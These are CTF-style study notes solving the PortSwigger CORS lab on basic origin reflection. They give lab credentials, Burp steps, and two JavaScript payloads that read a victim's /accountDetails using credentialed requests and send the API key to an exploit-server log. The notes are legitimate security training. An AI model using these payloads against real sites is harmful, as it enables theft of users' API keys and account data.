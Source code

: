 CORS Portswigger: https://portswigger.net/web-security/cors


# 1)Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

 ####  Solution

1. Check intercept is off, then use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header:
    
    `Origin: https://example.com`
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL:
```
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```

1. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
2. Go back to the exploit server and click **Deliver exploit to victim**.
3. Click **Access log**, retrieve and submit the victim's API key to complete the lab.

Rana khalil: 
Lab video:https://www.youtube.com/watch?v=XTFDst3TjMM&ab_channel=RanaKhalil
Lab solution:https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/cors/lab-01/notes.txt
HTML script:https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/cors/lab-01/cors-lab-01.html


```
Lab #1 - CORS vulnerability with basic origin reflection

Target Goal - exploit the CORS misconfiguration to retrieve the administrator's API key

Creds - wiener:peter

Analysis:

Testing for CORS misconfigurations:
1. change the origin to an arbitrary value / True
2.
```

Html script for exploiting CORS:
```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            
            var url = "YOUR-LAB-ID.web-security-academy.net"
            
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```


